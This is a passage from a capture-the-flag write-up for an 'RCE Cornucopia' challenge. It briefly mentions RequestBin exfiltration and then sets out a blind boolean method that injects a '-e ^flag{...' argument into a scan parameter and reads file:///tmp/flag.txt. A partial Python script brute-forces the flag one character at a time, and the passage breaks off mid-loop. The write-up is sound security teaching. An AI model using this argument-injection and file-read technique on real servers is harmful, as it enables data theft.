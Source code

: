 And check RequestBin,

![RCE Cornucopia](/img/rce-cornucopia/rce9-006.png)

Success.

## Solution 2 - Blind Boolean

This challenge can be solved without requiring unlimited outbound Internet access from the web server. What if there was a white-list of domains or it could only be used internally on a local network? 

We can do this by guessing each character from front to back. We know the flag starts with `flag{` and can check for that. We'll ask, does it start with `flag{a`? or `flag{b`? or `flag{c`? and so on... Once the first letter is found (we'll look for a 'Yaaaaaassssss' in the response to determine this), repeat the same for the next character, and so on.

Some quick and dirty Python I used when the challenge was still hosted online for the AppSec USA CTF (URL removed),

```{% raw %}
import socket, urllib

HOST = "<url removed>"
PORT = 80
REQU = """GET /index.php?url=file%3A%2F%2F%2Ftmp%2Fflag.txt&string={}&submit=Scan HTTP/1.1
Host: <url removed>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: <url removed>
Connection: close\r\n\r\n"""
ALPH = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890"

def corn9(guess):
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((HOST, PORT))

	x = "-e '^flag{%s'" % (guess)
	s.send(REQU.format(urllib.quote_plus(x)))
	r = s.recv(8192)
	s.close()
	
	if "Yaaaaaassssss" in r:
		return True
	return False

p = ''
for i in xrange(64):
	f = False
	for c in ALPH:
		print p, c
		if corn9(p + c):
```